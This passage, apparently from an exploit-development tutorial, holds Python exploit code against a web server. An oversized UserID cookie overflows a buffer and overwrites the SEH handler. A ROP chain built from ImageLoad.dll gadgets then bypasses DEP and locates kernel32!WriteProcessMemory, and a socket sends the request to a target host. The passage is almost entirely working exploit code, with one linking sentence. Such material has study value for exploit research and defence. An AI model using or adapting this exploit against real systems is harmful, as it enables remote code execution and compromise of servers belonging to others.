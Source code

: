 ```python
crash += struct.pack('<L', 0x1002248c)    # mov eax, dword [eax] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1002248c)    # mov eax, dword [eax] ; ret: ImageLoad.dll (non-ASLR enabled module)


# 4063 total offset to SEH
crash += "\x41" * (4063-len(crash))

# SEH only - no nSEH because of DEP
# Stack pivot to return to buffer
crash += struct.pack('<L', 0x10022869)    # add esp, 0x1004 ; ret: ImageLoad.dll (non-ASLR enabled module)

# 5000 total bytes for crash
crash += "\x41" * (5000-len(crash))

# Replicating HTTP request to interact with the server
# UserID contains the vulnerability
http_request = "GET /changeuser.ghp HTTP/1.1\r\n"
http_request += "Host: 172.16.55.140\r\n"
http_request += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
http_request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
http_request += "Accept-Language: en-US,en;q=0.5\r\n"
http_request += "Accept-Encoding: gzip, deflate\r\n"
http_request += "Referer: http://172.16.55.140/\r\n"
http_request += "Cookie: SESSIONID=9349; UserID=" + crash + "; PassWD=;\r\n"
http_request += "Connection: Close\r\n"
http_request += "Upgrade-Insecure-Requests: 1\r\n"

print "[+] Sending exploit..."
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.130", 80))
s.send(http_request)
s.close()
```

Now that we have an updated POC, let's use a ROP routine to subtract this value from EAX.

```python
# Preparing EDX by clearing it out
crash += struct.pack('<L', 0x10022c4c)    # xor edx, edx ; ret: ImageLoad.dll (non-ASLR enabled module)

# Beginning calculations for EBX
crash += struct.pack('<L', 0x100141c8)    # pop ebx ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0xfffffd2d)    # Negative distance to kernel32!WriteProcessMemory

# Transferring EBX to EDX
crash += struct.pack('<L', 0x10022c1e)    # add edx, ebx ; pop ebx ; retn 0x10: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x90909090)    # Compensating for above ROP gadget

# Placing kernel32!WriteProcessMemory into EAX
crash += struct.pack('<L', 0x10015ce5)    # sub eax, edx ; ret: ImageLoad.dll (non-ASLR enabled module)

# ROP gadget compensations
crash += struct.pack('<L', 0x90909090)    # Compensation for retn 0x10 in previous ROP gadget
crash += struct.pack('<L', 0x90909090)    # Compensation for retn 0x10 in previous ROP gadget
crash += struct.pack('<L', 0x90909090)    # Compensation for retn 0x10 in previous ROP gadget
crash += struct.pack('<L', 0x90909090)    # Compensation for retn 0x10 in previous ROP gadget
```
